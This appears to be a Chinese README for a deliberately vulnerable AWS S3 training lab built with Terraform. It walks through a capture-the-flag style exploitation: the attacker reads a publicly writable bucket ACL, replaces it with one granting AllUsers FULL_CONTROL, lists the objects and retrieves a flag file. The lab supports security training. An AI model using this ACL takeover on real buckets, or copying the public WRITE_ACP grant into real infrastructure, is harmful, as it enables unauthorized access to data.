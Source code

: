 # AWS S3 Bucket ACL 可写漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS S3 Bucket ACL 可写的漏洞环境靶场。

使用 Terraform 构建环境后，用户可以通过修改 Bucket 的 ACL 策略将原本无法读取的数据修改为可读，从而访问到 S3 服务资源。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aws/s3/bucket_acl_writable/
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

当命令执行完后，在 Outputs 处可以看到 Bucket 名称，这个 Bucket 存在 Bucket ACL 读取和写入权限

## 漏洞利用

尝试遍历 Object，发现访问被拒绝

![img](../../../images/1652335945.png)

尝试读取 Bucket 的 ACL 策略，发现可以读取

```shell
https://houxianxxxxx.s3.us-east-1.amazonaws.com/?acl
```

![img](../../../images/1652336104.png)

尝试使用 PUT 方法修改 Bucket 的 ACL 策略

原来的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>WRITE_ACP</Permission>
</Grant>
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ_ACP</Permission>
</Grant>
```

新的 ACL 策略

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>FULL_CONTROL</Permission>
</Grant>
```

![img](../../../images/1652336299.png)

再次尝试遍历 Object，发现已经可以遍历到了，说明刚才上传的 ACL 策略生效了

![img](../../../images/1652336374.png)

在 Bucket 中，发现 flag 文件

```shell
https://houxianxxxxx.s3.us-east-1.amazonaws.com/flag1650859
```

![img](../../../images/1652336457.png)

成功获取到 flag 文件内容

## 销毁环境

```shell
terraform destroy
```
